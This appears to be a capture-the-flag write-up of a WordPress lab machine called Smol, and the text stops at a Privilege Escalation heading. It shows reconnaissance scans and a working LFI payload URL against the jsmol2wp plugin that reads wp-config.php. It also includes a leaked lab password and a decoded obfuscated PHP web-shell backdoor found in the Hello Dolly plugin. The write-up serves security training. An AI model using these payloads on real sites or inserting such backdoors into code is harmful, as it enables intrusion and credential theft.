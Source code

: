 #### Introduction
At the heart of **Smol** is a WordPress website, a common target due to its extensive plugin ecosystem. The machine showcases a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. Enhancing the learning experience, Smol introduces a backdoored plugin, emphasizing the significance of meticulous code inspection before integrating third-party components.

Quick Tips: Do you know that on computers without GPU like the `AttackBox`, **John The Ripper** is faster than **Hashcat**?

---
### Enumeration
#### Nmap
```bash
nmap -p- -A 10.10.244.177                 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-28 16:16 EDT
Nmap scan report for 10.10.244.177
Host is up (0.090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 05:69:26:94:4c:99:94:63:81:35:c4:7b:e5:4e:18:d4 (RSA)
|   256 50:cc:49:2d:72:21:38:9b:c0:4c:65:e9:b4:dd:31:a2 (ECDSA)
|_  256 d5:e5:b5:a5:72:ed:dd:78:bf:13:b8:8a:51:1b:66:fe (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://www.smol.thm
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   63.74 ms 10.14.0.1
2   83.08 ms 10.10.244.177

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.66 seconds
```

`http-title: Did not follow redirect to http://www.smol.thm` means that the `IP` is not resolved to the DNS address because it is missing from `/etc/hosts` file.

#### Mapping the IP to the DNS address
```bash
sudo vim /etc/hosts
<IP> www.smol.thm
```

Now, we have the website working and showing the web page.

![[Smol_webpage.png]]

Inside the `RCE` title, there's a `Comment` section where it says `You must be logged in to post a comment.` When we click the `logged in` section, we get the `wp-login.php` web page. We can also get there by directory enumeration.

![[wp.png]]
#### Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -u www.smol.thm > gobuster       
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://www.smol.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 317] [--> http://www.smol.thm/wp-content/]
/wp-admin             (Status: 301) [Size: 315] [--> http://www.smol.thm/wp-admin/]

===============================================================
Finished
===============================================================
```

Now, that we have found that the website is using the `wordpress` we can use tools like `wpscan`.
#### WPScan Tool with an API-Token
```bash
wpscan --url http://www.smol.thm --api-token 8c1tS-----------------------1LU

[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Cross-Site Scripting (XSS)
 |     References:
 |      - https://wpscan.com/vulnerability/0bbf1542-6e00-4a68-97f6-48a7790d1c3e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20462
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
 |
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Server Side Request Forgery (SSRF)
 |     References:
 |      - https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20463
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
```

The `version 1.07` and below are vulnerable and we can also see the location of the `jsmol2wp`. At the same time, we can also use the `Nmap Script` to enumerate further.
#### Nmap Script
```bash
nmap -p80 --script http-wordpress-enum,http-wordpress-users 10.10.244.177
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-28 17:05 EDT
Nmap scan report for www.smol.thm (10.10.244.177)
Host is up (0.11s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   plugins
|_    akismet 5.2
| http-wordpress-users: 
| Username found: admin
| Username found: wp
| Username found: think
| Username found: gege
| Username found: diego
| Username found: xavi
|_Search stopped at ID #25. Increase the upper limit if necessary with 'http-wordpress-users.limit'

Nmap done: 1 IP address (1 host up) scanned in 13.12 seconds
```

We've managed to get a few `wordpress users` from the nmap script enumeration.

After the nmap script is complete, we navigated to that location `http://www.smol.thm/wp-content/plugins/jsmol2wp/` and found few folders and files. So, I searched for the `jsmol2wp exploit` and there are a few mentioning `WordPress JSmol2WP <=1.07`, so we followed the `wpscan` website which has the `Local File Inclusion (LFI): http://localhost:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php.` 

---
### Initial Access

We changed the `localhost:8000` to `www.smol.thm` and we used this to get the `wp-config.php` file.
![[wp-config.png]]

Inside this file is a password of the `wpuser: kbLSF2Vop#lw3rjDZ629*Z%G`. We used these creds to login to the wordpress and it worked. Under `Pages --> Webmaster Tasks`, there's some kind of `to-do list.`

![[Webmaster-tasks.png]]

The first tasks hints us that there could be a `Hello Dolly` plugin vulnerability. 
#### What is `Hello Dolly` Plugin?
**Hello Dolly** is a simple WordPress plugin that comes `preinstalled` in WordPress. It displays random lines from the song `Hello Dolly` by Louis Armstrong in the WordPress dashboard.

Since, we have found the plugin is installed in the WordPress we can try to Directory Traversal to `plugins`. At the moment, we are here: `http://www.smol.thm/wp-content/plugins/jsmol2wp/php/` and we need to go back two steps to `http://www.smol.thm/wp-content/plugins/` to access `hello.php.` So, the complete address will look like this: `http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php.`

Using the Directory Traversal/LFI, we have managed to get the `hello.php` plugin's content.

![[hello.png]]

There's a base64 encoded code. Let's decode it.
```bash
echo 'CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=' | base64 -d
```

We get this code from the base64 encoded code: `if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }`. This line is using obfuscated PHP code - octal and hexadecimal character encoding and upon further decoding this, we get: `if (isset($_GET["cmd"])) { system($_GET["cmd"]); }.`




---
### Privilege Escalation
